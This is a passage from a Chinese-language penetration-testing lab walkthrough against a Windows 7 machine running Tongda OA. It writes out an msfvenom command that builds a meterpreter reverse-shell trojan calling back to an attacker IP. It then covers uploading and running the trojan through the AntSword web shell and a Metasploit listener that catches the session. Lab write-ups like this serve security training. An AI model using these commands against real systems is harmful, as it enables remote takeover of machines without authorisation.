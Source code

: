 ![image-20220309152017074](https://gitee.com/xxb667/img/raw/master/img/image-20220309152017074.png)

![image-20220309151316982](https://gitee.com/xxb667/img/raw/master/img/image-20220309151316982.png)

得到两个网卡信息：

```
网卡1：192.168.1.21
网卡2：10.0.20.98
非域环境
```

### 3.2 msfvenom 生成木马 获取shell

同时可以联动CS

```shell
msfvenom  -p  windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4444 -f exe -o /home/xxb1/xb.exe
```

![image-20220309153034943](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220309153034943.png)

生成的木马用中国蚁剑上传到Windows 7 目标机器

![image-20220309153225371](https://gitee.com/xxb667/img/raw/master/img/image-20220309153225371.png)

MSF开启监听  然后用蚁剑运行xb.exe

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost eth0
run
```

![image-20220309153949947](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220309153949947.png)

蚁剑的运行

![](https://gitee.com/xxb667/img/raw/master/img/image-20220309154256689.png)

kali进行查看

![image-20220309154256689](https://gitee.com/xxb667/img/raw/master/img/image-20220309154256689.png)

通达OA 是系统权限，所以省去提权

![image-20220309153540909](https://gitee.com/xxb667/img/raw/master/img/image-20220309153540909.png)

由于我们的权限较高，而且是64位的木马，所以这里我们可以不迁移进程。

### 3.3 *联动CS上线（可选）：

